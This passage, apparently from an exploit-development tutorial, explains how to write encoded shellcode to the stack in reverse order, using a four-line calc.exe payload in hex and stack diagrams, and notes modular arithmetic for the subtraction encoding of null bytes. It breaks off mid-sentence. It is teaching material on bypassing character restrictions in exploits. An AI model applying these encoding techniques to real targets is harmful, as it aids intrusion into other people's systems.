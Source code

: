 Since we are writing to the stack towards upward addresses, you will need to start with the last line of shellcode for your payload (`calc.exe` in my case), and end with your first line. Here is a visual of what will be happening when we write to the stack:

```console
"\x31\xc9\x51\x68" - 1st line
"\x63\x61\x6c\x63" - 2nd line
"\x54\xB8\xc7\x93" - 3rd line
"\xc2\x77\xff\xd0" - 4th line
```

After pushing the 4th line of decoded shellcode on the stack:

```console
LOWER ADDRESSES
-
-
-
4th line
HIGHER ADDRESSES
```

After psuhing the 3rd line of decoded shellcode on the stack:

```console
LOWER ADDRESSES
-
-
3rd line
4th line
HIGHER ADDRESSES
```


After pushing the 2nd line of decoded shellcode on the stack:

```console
LOWER ADDRESSES
-
2nd line
3rd line
4th line
HIGHER ADDRESSES
```

After pushing the 1st line of decoded shellcode on the stack:

```console
LOWER ADDRESSES
1st
2nd
3rd
4th
HIGHER ADDRESSES
```

You can see how this is working now, and why we do it in this order. Since I already did an example of the subtraction method above, I am not going to redo it four more times. Here are some things to take note of though:
1. When you have a value of `00` you need to do the sub method for, your three hex values to be added together are `55 55 56`. This is because this is equal to 256, and because of [modular arithmetic](https://en.wikipedia.org/wiki/Modular_arithmetic).
2. When you have a `00` value and you get an answer equal to a multiple of 256 (which is 0), you have to carry a `1` down to the next line. So, if you had these to values:
